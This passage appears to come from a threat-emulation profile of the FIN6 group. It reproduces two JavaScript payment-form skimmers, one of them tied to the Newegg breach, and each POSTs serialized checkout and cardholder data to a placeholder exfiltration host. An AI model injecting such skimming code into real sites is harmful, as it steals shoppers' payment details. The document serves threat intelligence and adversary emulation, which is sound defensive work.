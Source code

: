 ```sh
window.onload = function() {
    jquery("#submitButton").bind("mouse touchend", function(a){
        var
            n = {};
        jQuery("#paymentForm").serializeArray().map(function(a){
            n[a.name] = a.value
        });
        var e = document.getElementById("personPaying").innerHTML;
        n.person = e;
        var
            t = JSON.stringify(n);
        setTimeout(function(){
            jQuery.ajax({
                type: "POST",
                async: !0,
                url: #{"MaliciousExfilServer.com"},
                data: t,
                dataType: "application/json"
            })
        },  500)
    })
};
```

FIN6 is suspected of operating in a similar manner against Newegg.  The web server was compromised and the following script was integrated into the checkout process on the Newegg payment processing page.

##### Newegg<sup>[15](https://riskiq.com/blog/labs/magecart-newegg/)</sup>

```sh
window.onload = function(){
    jQuery('#btnCreditCard.paymentBtn.creditcard').bind("mouseup touchend", function(e){
        var dati = jQuery('#checkout');
        var pdati = JSON.stringify(dati.serializeArray());
        setTimeout(function() {
            JQuery.ajax({
                type: "POST",
                async: true,
                url: #{"MaliciousExfilServer.com"},
                data: pdati,
                dataType: 'application/json'
            });
        },  250);
    });
};
```

---

## Scenario 3 - Deploying Ransomware
